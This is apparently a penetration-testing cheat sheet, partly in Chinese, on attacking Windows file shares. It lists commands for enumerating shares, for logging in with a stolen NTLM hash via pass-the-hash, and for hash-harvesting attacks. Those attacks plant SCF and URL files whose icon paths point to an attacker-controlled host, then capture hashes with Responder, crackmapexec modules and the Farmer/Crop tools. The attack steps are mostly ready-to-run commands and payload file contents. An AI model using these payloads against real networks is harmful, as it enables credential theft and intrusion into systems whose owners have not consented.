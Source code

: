	某些共享无需身份验证即可访问，探索它们以找到一些有趣的文件
 ### smbmap
  	https://github.com/ShawnDEvans/smbmap
  	>smbmap -H 10.10.10.10                
	>smbmap -H 10.10.10.10 -R             # 递归列表
	>smbmap -H 10.10.10.10 -u invaliduser 
	>smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
 ### pth-smbclient from path-toolkit
  	https://github.com/byt3bl33d3r/pth-toolkit
	>pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
	>pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
	>ls  # 列文件
	>cd  # 切换目录
	>get # 下载
	>put # 上传
 ### smbclient from Impacket
  	https://github.com/SecureAuthCorp/impacket
	>smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
 ### 针对可写共享的 SCF 和 URL 文件攻击
  	https://github.com/mdsecactivebreach/Farmer
	https://github.com/mdsecactivebreach/Farmer/tree/main/crop
	>farmer.exe <port> [seconds] [output]
	>farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
	>farmer.exe 8888 60 # one minute
	Crop 可用于创建各种文件，这些文件将触发 SMB/WebDAV 连接，以便在哈希收集攻击期间中毒文件共享
	>crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
	>Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
	>Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
 ### SCF文件
  	@something.scf文件写入以下内容
	[Shell]
	Command=2
	IconFile=\\10.10.10.10\Share\test.ico
	[Taskbar]
	Command=ToggleDesktop
	然后监听
	>responder -wrf --lm -v -I eth0
	使用crackmapexec:
	>crackmapexec smb 10.10.10.10 -u username -p password -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
	>crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
	>crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP
 ### URL文件
	.url文件写入以下内容
	[InternetShortcut]
	URL=whatever
	WorkingDirectory=whatever
	IconFile=\\10.10.10.10\%USERNAME%.icon
	IconIndex=1
	然后监听
	>responder -I eth0 -v
